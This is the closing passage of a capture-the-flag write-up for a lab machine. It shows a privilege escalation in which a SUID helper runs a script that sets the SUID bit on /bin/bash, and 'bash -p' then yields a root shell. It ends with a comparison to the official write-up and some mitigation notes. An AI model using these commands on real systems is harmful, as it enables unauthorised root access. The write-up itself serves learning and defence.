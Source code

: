 note that I had to make it executable for the program to run it. So maybe we can throw some code in there.


```
#!bin/bash

chmod 4755 /bin/bash
```

And then run it:

```
djmardov@irked:/tmp$ viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-02-06 02:28 (:0)
djmardov@irked:/tmp$ /bin/bash -p
bash-4.3# whoami
root
bash-4.3# 
```

## Comparing myself with the official writeup:

They use metasploit to exploit the UnrealIRCd backdoor.

They ssh in after finding the password in the image file.

They use a similar command to find suid files.

They use ltrace to examine the binary.

They gain root by creating a listusers file with "/bin/sh".



## How to stop this exploit:

Looking at https://lwn.net/Articles/392201/

We can see that the backdoor is disguised as a variable called DEBUGMODE3_INFO.

It was patched, and updated versions of unrealIRCd do not have the backdoor.

Having the users password hidden in an image file is also not secure at all. Neither is saving the password for that file in a file called .backup.

viewuser could also be achieved with already built-in commands in the linux system. Which would not be susceptible to privelege escalation.
